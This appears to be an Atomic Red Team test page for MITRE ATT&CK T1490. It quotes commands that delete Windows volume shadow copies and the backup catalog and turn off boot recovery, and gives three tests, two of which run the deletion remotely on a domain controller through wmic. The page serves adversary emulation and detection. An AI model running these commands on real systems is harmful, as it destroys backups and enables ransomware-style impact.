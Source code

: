 # T1490A - Inhibit System Recovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1490)
<blockquote>Adversaries may delete or remove built-in operating system data and turn off services designed to aid in the recovery of a corrupted system to prevent recovery.(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017) Operating systems may contain features that can help fix corrupted systems, such as a backup catalog, volume shadow copies, and automatic repair features. Adversaries may disable or delete system recovery features to augment the effects of [Data Destruction](https://attack.mitre.org/techniques/T1485) and [Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486).(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017)

A number of native Windows utilities have been used by adversaries to disable or delete system recovery features:

* <code>vssadmin.exe</code> can be used to delete all volume shadow copies on a system - <code>vssadmin.exe delete shadows /all /quiet</code>
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) can be used to delete volume shadow copies - <code>wmic shadowcopy delete</code>
* <code>wbadmin.exe</code> can be used to delete the Windows Backup Catalog - <code>wbadmin.exe delete catalog -quiet</code>
* <code>bcdedit.exe</code> can be used to disable automatic Windows recovery features by modifying boot configuration data - <code>bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI](#atomic-test-2---windows---delete-volume-shadow-copies-via-wmi)

- [Atomic Test #3 - Windows - Delete Volume Shadow Copies via WMI with PowerShell](#atomic-test-3---windows---delete-volume-shadow-copies-via-wmi-with-powershell)

<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer. Upon
execution, if no shadow volumes exist the message "No items found that satisfy the query." will be displayed. If shadow volumes are present, it
will delete them without printing output to the screen. This is because the /quiet parameter was passed which also suppresses the y/n
confirmation prompt. Shadow copies can only be created on Windows server or Windows 8.

https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc788055(v=ws.11)

**Supported Platforms:** Windows



#### Inputs:
| Name     | Description            | Type   | Default Value |
| -------- | ---------------------- | ------ | ------------- |
| DC_IP    | DC Address             | String | 192.168.204.100 |




#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create "vssadmin.exe delete shadows /all /quiet"
```




#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create 'if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) {exit 0 } else { exit 1 }'
```
##### Get Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create "vssadmin.exe create shadow /for=c:"
```




<br/>
<br/>

## Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI
Deletes Windows Volume Shadow Copies via WMI. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.
Shadow copies can only be created on Windows server or Windows 8.

**Supported Platforms:** Windows



#### Inputs:
| Name     | Description            | Type   | Default Value |
| -------- | ---------------------- | ------ | ------------- |
| DC_IP    | DC Address             | String | 192.168.204.100 |



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create "wmic.exe shadowcopy delete"
```

#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```powershell
wmic /node:#{DC_IP} process call create 'if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) { exit 0 } else { exit 1 }'
```
##### Get Prereq Commands:
```powershell
wmic /node:#{DC_IP} process call create "vssadmin.exe create shadow /for=c:"
```





<br/>
<br/>

## Atomic Test #3 - Windows - Delete Volume Shadow Copies via WMI with PowerShell
Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject.
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject. Shadow copies can only be created on Windows server or Windows 8, so upon execution
there may be no output displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```

#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```powershell
if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
vssadmin.exe create shadow /for=c:
```





<br/>
